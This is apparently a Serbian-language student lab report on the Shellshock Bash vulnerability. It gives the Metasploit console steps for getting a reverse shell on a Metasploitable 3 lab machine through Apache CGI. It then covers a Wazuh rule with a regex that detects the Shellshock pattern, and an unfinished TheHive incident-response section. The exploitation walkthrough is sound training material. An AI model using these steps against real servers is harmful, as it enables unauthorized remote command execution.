 # Eksploatacija ranjivosti, detekcija, i Incident Response izveštaj

### Име и презиме: _тимски_
### Датум: 2.12.2024.

---

## Преглед рањивости

### 1.1 Информације о рањивости

- ID рањивости (CVE): CVE-2014-6271
- Погођен сервис: Bash
- CVSS оцена: 9.8
- Опис рањивости: Шел функције у Bash-у се могу експортовати кроз environment променљиву. Други bash процеси могу да "импортују" ту функцију у свој шел кроз environment променљиву. Могуће је поставити вредност те променљиве тако да се код након дефиниције прве фунцкије изврши аутоматски.

### 1.2 Опис експлоита

**Извор експлоита:**

https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/http/apache_mod_cgi_bash_env_exec.rb

**Метод експлоатације:**

Упућује се захтев ка Apache Httpd-у. `HTTP_USER_AGENT` се поставља на малициозну bash команду. Уз захтев се шаље случајна вредност за маркер. Ако сервер врати тај маркер, значи да је експлоит успешно извршен. Напада се CGI јер је то део Apache-а који покреће скрипте и омогућава динамичност. Када се те скрипте позову, у шел се прикупе environment варијабле, и због рањивости ће се извршити код. У овом случају, добијамо reverse shell.

---

## Процес експлоатације

### 2.1 Подешавање експлоита

**Рањив циљ:**

- Metasploitable 3 Ubuntu
- Bash 4.3 или мање
- Apache 2.4.7 који ради на порту 80.

**Алати за експлоатацију:**

Metasploit Framework

### 2.2 Кораци експлоатације

1. Прво се покреће Metasploit Framework: `msfconsole.bat`.
2. Тражимо експлоит за Шелшок: `search CVE-2014-6271`.
3. Од понуђених, бирамо ону са индексом 1 јер она злоупотребљава Apache: `use 1`.
4. Морамо подесити адресу рањиве машине: `set RHOST 192.168.19.109`.
5. Морамо подесити порт рањиве машине: `set RPORT 80`.
6. Морамо подесити локацију ресурса који се напада (URI): `set TARGETURI /cgi-bin/hello.sh`. 
7. Морамо одабрати payload. То су подаци које ће metasploit слати када буде извршавао експлоит. `show payloads`.
8. Ми желимо да добијемо reverse shell. `set payload 33`.
9. Покрећемо експлоит `run`. 


### 2.3 Резултат експлоатације

![img](metasploit1.png)

![img](metasploit2.png)

![img](metasploit3.png)

## Детекција коришћењем Wazuh SIEM-а

### 3.1 Wazuh SIEM правила

**Правила коришћена за детекцију:**

У `/var/ossec/etc/rules/local_rules.xml` је додато следеће правило:

```xml
<group name="shellshockgroup">
    <rule id="100002" level="10">
        <description>Shellshock attack</description>
        <field>.*\(\)\s*{\s*:;.*|.*bin/bash.*</field>
        <options>no_full_log</options>
        <mitre>
            <id>T1203</id>
        </mitre>
    </rule>
</group>
```

- ID je `100002` а Mitre ID je T1203
- Level је `10`
- Опис правила: Тражи се регекс за `() { :; };`. Ако је он игде пронађен, покренуће се alert за задато правило. Не желимо да цео алерт иде у лог и зато је постављено `no_full_log`.

### 3.2 Конфигурација SIEM-а

**Подешавање Wazuh агента:**

Вазух агент се подешава на основу инструкција са следећег линка:

https://documentation.wazuh.com/current/installation-guide/wazuh-agent/wazuh-agent-package-linux.html

```sh
curl -s https://packages.wazuh.com/key/GPG-KEY-WAZUH | gpg --no-default-keyring --keyring gnupg-ring:/usr/share/keyrings/wazuh.gpg --import && chmod 644 /usr/share/keyrings/wazuh.gpg

echo "deb [signed-by=/usr/share/keyrings/wazuh.gpg] https://packages.wazuh.com/4.x/apt/ stable main" | tee -a /etc/apt/sources.list.d/wazuh.list

apt-get update

apt-get install wazuh-agent
```

Потом се у конфигурационом фајлу инсталираног вазух агента `ossec.conf` поставља IP адреса сервера са којом агент комуницира.

На крају се агент покреће. На metasploitable није могуће користити systemctl јер фали systemd, већ агента покрећемо ручно:

```sh
cd /var/ossec/bin/
./wazuh-control start
```

**Прикупљање логова:**

Логови се налазе у `/var/log/apache2/access.log`. Поново у истом конфигурационом фајлу поставља путања до тих логова ако она већ није ту.

```xml
<localfile>
  <location>/var/log/apache2<FILE_PATH>/access.log</location>
  <log_format>syslog</log_format>
</localfile>
```

### 3.3 Процес детекције

Када се уради покушај напада, требало би да се у веб апликацији испише лог. 

![img](./wazuh.png)

---

## Incident Reponse са The Hive-ом

### 4.1 Подешавање интеграције

**Опис интеграције:**

Праћен је туторијал у следећем линку: https://wazuh.com/blog/using-wazuh-and-thehive-for-threat-protection-and-incident-response/

TODO